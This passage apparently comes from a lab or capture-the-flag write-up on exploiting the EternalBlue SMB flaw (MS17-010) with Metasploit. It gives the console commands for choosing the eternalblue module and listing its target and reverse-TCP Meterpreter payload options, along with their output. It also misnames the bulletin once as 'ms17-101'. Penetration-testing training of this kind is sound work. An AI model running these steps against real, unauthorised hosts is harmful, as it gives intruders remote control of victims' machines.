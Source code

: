 ```
```

The target is vulnerable to `ms17-101`, also known as Eternal Blue. To exploit this, I am going to use `metasploit`

## Metasploit

**Start metasploit**   
`msfconsole`

To find a suitable exploit, I am going to search for `ms17-010`:

`search ms17-010`

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

The first exploit looks like it could be a good candidate, so I need to tell metasploit to use that one:

`use exploit/windows/smb/ms17_010_eternalblue`

**Exploit options**   
Each exploit has a number of configurable options, usually there is at least one mandatory option that needs to be set. To find the list of options run:

`show options`

```
Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s)
   RPORT          445              yes       The target port (TCP)

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

